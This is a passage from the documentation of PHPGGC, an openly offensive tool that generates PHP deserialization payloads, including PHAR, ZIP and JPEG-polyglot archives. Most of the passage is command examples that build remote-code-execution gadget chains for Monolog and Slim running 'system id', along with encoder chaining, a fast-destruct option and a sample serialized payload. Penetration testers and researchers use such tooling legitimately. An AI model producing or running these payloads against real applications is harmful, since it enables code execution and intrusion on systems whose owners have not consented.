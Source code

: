 ## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```
